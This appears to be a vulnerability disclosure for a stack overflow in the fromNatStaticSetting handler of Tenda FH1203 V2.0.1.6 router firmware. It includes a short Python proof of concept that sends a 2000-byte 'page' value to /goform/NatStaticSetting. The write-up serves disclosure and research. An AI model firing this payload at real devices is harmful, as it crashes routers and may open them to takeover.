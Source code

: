 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `fromNatStaticSetting` function. The `v3` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v3` can trigger this security vulnerability.

![image-20240320012709165](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012709165.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/NatStaticSetting"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320012731141](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012731141.png)
